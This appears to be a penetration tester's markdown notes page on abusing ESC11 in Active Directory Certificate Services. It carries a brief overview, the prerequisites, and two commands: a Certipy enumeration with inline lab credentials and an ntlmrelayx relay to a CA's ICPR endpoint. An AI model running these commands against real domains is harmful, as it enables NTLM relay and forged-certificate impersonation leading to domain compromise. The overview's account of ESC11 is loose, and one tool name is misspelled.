 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# General Overview: 

Exploiting ESC11 in AD CS involves abusing certificate templates that allow enrollment for certificates with insufficient security controls, enabling attackers to forge certificates that can impersonate privileged accounts. This can lead to unauthorized access and potential full domain compromise, especially when combined with weak certificate validation or mapping practices.

## Requirements:

- Enforce Encryption for Requests: Disabled
- Encryption is not enforced for ICPR requests and Request Disposition is set to Issue

# Abusing ESC11  Certificate Templates

## Certipy:
- cetipy-ad find -username afsimmons@megacorpone.com -p Spawn123! -dc-ip 172.21.1.5 -stdout
- impacket-ntlmrelayx -t rpc://172.21.1.100 -rpc-mode ICPR -icpr-ca-name megacorp-DC-CA -smb2support